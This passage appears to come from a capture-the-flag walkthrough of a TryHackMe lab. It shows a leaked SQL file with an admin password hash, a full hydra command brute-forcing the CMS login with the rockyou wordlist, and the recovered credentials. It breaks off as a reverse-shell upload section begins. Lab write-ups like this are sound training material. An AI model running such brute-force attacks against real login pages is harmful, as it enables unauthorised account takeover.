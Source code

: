 I downloaded `sqlite.user.initial.sql` and found a username and a password hash inside it:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Undiscovered/files]
└─$ cat sqlite.user.initial.sql
CREATE TABLE rite_userdata (id INTEGER PRIMARY KEY AUTOINCREMENT, name varchar(255) NOT NULL default '', type tinyint(4) NOT NULL default '0', pw varchar(255) NOT NULL default '', last_login int(11) NOT NULL default '0', wysiwyg tinyint(4) NOT NULL default '0');

INSERT INTO rite_userdata VALUES(1, 'admin', 1, '75470d05abd21fb5e84e735d2bc595e2f7ecc5c7a5e98ad0d7', 1230764400, 0);
~~~

We have `admin` as the username, but I couldn't crack the hash, so I decided to brute-force the password in the login page (`/cms`) using `hydra` and `rockyou` wordlist:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Undiscovered/files]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt deliver.undiscovered.thm http-post-form "/cms/index.php:username=^USER^&userpw=^PASS^:login_failed" 
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-14 03:43:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://deliver.undiscovered.thm:80/cms/index.php:username=^USER^&userpw=^PASS^:login_failed
[80][http-post-form] host: deliver.undiscovered.thm   login: admin   password: liverpool
1 of 1 target successfully completed, 1 valid password found
~~~

Now we have creds to login as admin:

* Username: `admin`
* Password: `liverpool`

## Reverse Shell

Now that we have creds, we can either use the exploit we found, or just login as admin and upload a reverse shell. I'm gonna upload a reverse shell myself. Follow the steps below:

1. First head to `http://deliver.undiscovered.thm/cms/` and enter the creds (`admin:liverpool`):

<p align="center"><img src="files/step1.png"></p>
